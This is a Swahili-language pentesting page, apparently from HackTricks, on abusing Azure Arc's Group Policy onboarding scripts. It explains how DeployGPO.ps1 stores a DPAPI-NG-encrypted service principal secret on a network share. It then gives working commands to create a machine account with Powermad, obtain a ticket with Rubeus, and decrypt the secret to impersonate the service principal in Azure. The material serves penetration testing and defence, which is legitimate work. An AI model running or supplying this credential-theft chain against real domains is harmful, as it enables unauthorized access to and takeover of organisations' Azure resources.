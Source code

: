 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Kutambua Masuala

Azure Arc inaruhusu kuunganishwa kwa seva mpya za ndani (seva zilizounganishwa kwenye kikoa) ndani ya Azure Arc kwa kutumia njia ya Group Policy Object. Ili kuwezesha hili, Microsoft inatoa zana za usambazaji zinazohitajika kwa ajili ya kuanzisha mchakato wa kuingiza. Ndani ya faili ya ArcEnableServerGroupPolicy.zip, skripti zifuatazo zinaweza kupatikana: DeployGPO.ps1, EnableAzureArc.ps1, na AzureArcDeployment.psm1.

Wakati inatekelezwa, skripti ya DeployGPO.ps1 inafanya hatua zifuatazo:

1. Inaunda Azure Arc Servers Onboarding GPO ndani ya kikoa cha ndani.
2. Inakopya skripti ya kuingiza ya EnableAzureArc.ps1 kwenye sehemu ya mtandao iliyotengwa kwa ajili ya mchakato wa kuingiza, ambayo pia ina pakiti ya kusakinisha ya Windows.

Wakati wa kuendesha skripti hii, wasimamizi wa mfumo wanahitaji kutoa vigezo viwili vikuu: **ServicePrincipalId** na **ServicePrincipalClientSecret**. Aidha, inahitaji vigezo vingine kama vile kikoa, FQDN ya seva inayohifadhi sehemu hiyo, na jina la sehemu hiyo. Maelezo zaidi kama vile kitambulisho cha mpangilio, kundi la rasilimali, na taarifa nyingine muhimu lazima pia zitolewe kwa skripti.

Siri iliyosimbwa inaundwa katika saraka ya AzureArcDeploy kwenye sehemu iliyotajwa kwa kutumia usimbaji wa DPAPI-NG. Siri iliyosimbwa inahifadhiwa katika faili inayoitwa encryptedServicePrincipalSecret. Ushahidi wa hili unaweza kupatikana katika skripti ya DeployGPO.ps1, ambapo usimbaji unafanywa kwa kuita ProtectBase64 na $descriptor na $ServicePrincipalSecret kama ingizo. Maelezo ya descriptor yanajumuisha SID za Kichaka cha Kompyuta ya Kikoa na Kichaka cha Msimamizi wa Kikoa, kuhakikisha kwamba ServicePrincipalSecret inaweza kusimbwa tu na vikundi vya usalama vya Msimamizi wa Kikoa na Kompyuta za Kikoa, kama ilivyotajwa katika maoni ya skripti.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Tuna masharti yafuatayo:

1. Tumepenya kwa mafanikio kwenye mtandao wa ndani.
2. Tuna uwezo wa kuunda au kudhibiti akaunti ya kompyuta ndani ya Active Directory.
3. Tumegundua sehemu ya mtandao inayoshikilia directory ya AzureArcDeploy.

Kuna njia kadhaa za kupata akaunti ya mashine ndani ya mazingira ya AD. Moja ya njia maarufu ni kutumia quota ya akaunti ya mashine. Njia nyingine inahusisha kuathiri akaunti ya mashine kupitia ACLs zenye udhaifu au mipangilio mingine mbalimbali isiyo sahihi.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Mara tu akaunti ya mashine inapopatikana, inawezekana kuthibitisha kwa kutumia akaunti hii. Tunaweza ama kutumia amri ya runas.exe na bendera ya netonly au kutumia pass-the-ticket na Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Kwa kuwa na TGT ya akaunti yetu ya kompyuta iliyohifadhiwa kwenye kumbukumbu, tunaweza kutumia skripti ifuatayo kufungua siri ya huduma ya msingi.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Kwa upande mwingine, tunaweza kutumia [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Katika hatua hii, tunaweza kukusanya taarifa zilizobaki zinazohitajika kuungana na Azure kutoka kwa faili ya ArcInfo.json, ambayo imehifadhiwa kwenye sehemu ile ile ya mtandao kama faili ya encryptedServicePrincipalSecret. Faili hii ina maelezo kama: TenantId, servicePrincipalClientId, ResourceGroup, na mengineyo. Kwa kutumia taarifa hizi, tunaweza kutumia Azure CLI kuthibitisha kama service principal iliyoshambuliwa.

## Marejeleo

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
